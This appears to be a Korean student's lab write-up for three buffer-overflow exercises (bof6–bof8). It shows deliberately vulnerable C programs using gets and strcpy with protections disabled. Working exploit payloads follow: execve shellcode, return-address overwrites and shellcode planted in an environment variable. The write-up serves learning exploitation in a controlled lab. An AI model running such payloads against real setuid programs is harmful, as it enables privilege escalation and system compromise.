# bof6

<details>
<summary>bof6.c</summary>

```c
// AFTER => bof5.c
//       => shellcode.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON


void vuln() {
    char buf[BUF_SIZE];
    char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

    printf("[shellcode:%p]\n", shellcode);
    gets(buf);
    printf("Hello %s!\n", buf);

    if (setreuid(1007, 1007)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1007, 1007)) {
        perror("setgid");
        exit(1);
    }
}

int main() {
    vuln();
    return 0;
}
```
</details>

코드를 보면 vuln함수에서 버퍼오버플로우에 취약한 gets를 확인 할 수 있다. 그리고 쉘을 실행시킬 수 있는 어셈블리어가 shellcode변수에 저장되있는 것을 확인 할 수 있다. 따라서 버퍼오버플로우를 통해서 ret에 shellcode의 주소값으로 덮어 씌우면 쉘을 실행시킬 수 있을 것 같다.

vuln()을 실행시켰을 떄 rsp주소



gets를 실행시켰을 때 rdi주소


두 주소의 차이는 136이다



./bof6을 통해서 실행시켰을 때 shellcode의 주소값을 알 수 있다.




따라서 다음과 같은 페이로드를 작성할 수 있다.
```
(python -c "print 'x' * 136 + '\x40\xe4\xff\xff\xff\x7f'";cat) | ./bof6
```

# bof7

<details>
<summary>bof7.c</summary>

```c
// AFTER => bof6.c
//       => shellcode.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define R "\033[31m"
#define E "\033[0m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln(char * arg){
    char buf[BUF_SIZE];

    if (setreuid(1008, 1008)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1008, 1008)) {
        perror("setgid");
        exit(1);
    }

    strcpy(buf, arg);
    printf("Hello %s[%p]!\n", buf, buf);
}

int main(int c, char *v[]) {
    if (c < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(v[1]);
    return 0;
}
```

</details>

코드를 보면 인자를 받아서 vuln함수에 전달한다는 것을 알 수 있다. 그리고 버퍼오버플로우에 취약한 strcpy가 있다. 따라서 인자에 쉘을 실행시킬 수 있는 어셈블리어를 적어 buf에 저장하고 ret에 buf의 주소값을 전달하면 쉘을 실행시킬 수 있을 것 같다. 그 과정은 bof6과 동일하다.

vuln을 실행시켰을 때 rsp의 주소



strcpy를 실행시켰을 때 rdi의 값(strcpy의 첫번째 인자가 buf의 주소값이므로)을 알고 싶었지만 이상하게 strcpy까지 실행이 안된다. 그래서 disassemble 명령어를 통해 확인할 수 있었다.(이 방법은 동윤이가 알려줬습니다.)  rdi에는 rbp - 0x80의 주소값이 들어있는 것을 확인 할 수 있다.



rbp - 0x80의 주소



두 주소의 차이값 136



./bof7 hello를 통해 buf의 주소값을 확인한 결과



따라서 위의 결과를 모두 합치면 다음과 같은 페이로드를 만들 수 있다.

```
./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x' * 109 + '\x40\xe4\xff\xff\xff\x7f'"`
```

+입력되는 문자열의 개수에 따라 buf의 주소값이 바뀌는 것 같다. 따라서 세그폴트가 뜨면 출력되는 buf의 주소값에 맞춰 바꾸자   
+쉘 코드에 널문자 혹은 ;이 있어야한다는 생각이 들었지만 이미 저 코드에서는 포함이 되어있는 것 같다.  


# bof8

<details>
<summary>bof8.c</summary>


```c
// AFTER => bof7.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln() {
    char buf[BUF_SIZE];

    if (setreuid(1009, 1009)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1009, 1009)) {
        perror("setgid");
        exit(1);
    }
    gets(buf);
    printf("Hello %s[%p]!\n", buf, buf);
    printf("(env:SHELLCODE -> %p)\n", getenv("SHELLCODE"));
}

int main() {
    vuln();
    return 0;
}
```
</details>

코드를 보면 버퍼오버플로우에 취약한 gets함수를 확인 할 수 있고, 새로운 함수인 getenv를 볼 수있다. getenv를 확인한 결과 찾을 환경변수의 이름을 입력을 하면 그 환경변수를 찾고 찾았다면 그 값을 못 찾았다면 널값을 반환하는 함수이다. 그렇다면 환경변수를 설정하고 그 주소값을 ret에다가 덮어씌우면 쉘을 실행 시킬 수 있을 것 같다.

vuln함수를 실행시켰을 떄 rsp주소

 

disassemble로 gets함수 부분에서 buf의 주소값을 확인



rpb - 0x8의 값



두 주소값의 차이



이제 환경 변수를 설정해보자. export 환경변수이름=값의 형태로 환경변수를 설정할 수 있다.(=띄어쓰기 하면 안된다.)

```
export SHELLCODE=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'")
```

+위와 같이 할 경우 환경 변수는 시스템을 재부팅하거나 재로그인을 하게 되면 사라져있다. 문제를 해결하기 위해서 중요한 것은 아니지만 환경변수를 영구적으로 적용을 할려면 /etc/bash.bashrc export 환경변수이름=값 을 하면되겠다. 만약 특정 사용자만 사용하게 하고 싶다면 /home/사용자명/.bashrc export 환경변수이름=값 을 하면된다. 

+특정 환경변수를 확인할려면 env | grep 환경변수이름 으로 확인할 수 있다.

+환경변수를 해제할려면 unset 환경변수이름 으로 가능하다.

환경 변수가 설정이 되었다면 bof8을 실행하여 환경변수의 주소값을 확인해 보자.



이제 이것들을 바탕으로 페이로드를 작성 해보자.

```
(python -c "print 'x' * 16 + '\x5f\xe8\xff\xff\xff\x7f'";cat) | ./bof8
```